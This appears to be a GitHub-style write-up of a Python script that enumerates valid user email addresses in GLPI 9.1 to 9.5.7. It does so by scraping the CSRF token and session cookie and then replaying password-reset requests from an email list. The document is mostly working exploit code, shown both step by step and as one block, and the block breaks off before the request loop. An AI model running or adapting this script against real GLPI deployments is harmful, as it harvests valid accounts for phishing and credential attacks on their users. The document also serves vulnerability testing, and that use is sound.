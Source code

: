 - This script is designed to test for a vulnerability in GLPI version 9.1 to 9.5.7 that allows an attacker to enumerate valid usernames via the password reset functionality.
   
  

<u>Step-by-step explanation:</u>

1. First, the script sends a GET request to the password reset page to obtain the CSRF token and session cookie.
        ```python
        response = requests.get('http://127.0.0.1:80/glpi/front/lostpassword.php?lostpassword=1')
        ```
2. Using the BeautifulSoup library, the script parses the HTML response to extract the CSRF token.
   ```py
        soup = BeautifulSoup(response.content, 'html.parser')
csrf_input = soup.find('input', {'name': lambda n: n and n.startswith('_glpi_csrf_')})
if csrf_input:
    csrf_token = csrf_input['value']

   ```
3. The script then reads a list of email addresses from a text file and loops through them to make a POST request to the password reset page for each email.
```py
        with open('emails.txt', 'r') as f:
    email_list = f.readlines()

for email in email_list:
    email = email.strip()
    data = {"email": email, "update": "Save", "_glpi_csrf_token": csrf_token}
    cookies = {"glpi_f6478bf118ca2449e9e40b198bd46afe": session_cookie_value}
    freq = requests.post(url, headers=headers, cookies=cookies, data=data)

```
4. Finally, the script parses the response from each POST request and checks if the message indicates a valid email address was found.
   ``` python
    soup = BeautifulSoup(freq.content, 'html.parser')
    div_center = soup.find('div', {'class': 'center'})
    Result = (f"Email: {email}, Result: {div_center.text.strip()}")
    if "An email has been sent to your email address. The email contains information for reset your password." in Result:
        print ("\033[1;32m Email Found! -> " + Result)

    ```

**Code block:**

```python

    import requests
    from bs4 import BeautifulSoup

    # Send a GET request to the page to receive the csrf token and the cookie session
    response = requests.get('http://127.0.0.1:80/glpi/front/lostpassword.php?lostpassword=1')

    # Parse the HTML using BeautifulSoup
    soup = BeautifulSoup(response.content, 'html.parser')

    # Find the input element with the CSRF token
    csrf_input = soup.find('input', {'name': lambda n: n and n.startswith('_glpi_csrf_')})

    # Extract the CSRF token if it exists
    if csrf_input:
        csrf_token = csrf_input['value']

    # Extract the session cookie
    session_cookie_value = None
    if response.cookies:
        session_cookie_value = next(iter(response.cookies.values()))

    # Set the custom url where the GLPI recover password is located 
    url = "http://127.0.0.1:80/glpi/front/lostpassword.php"

    # Set the headers for the POST request
    
    ```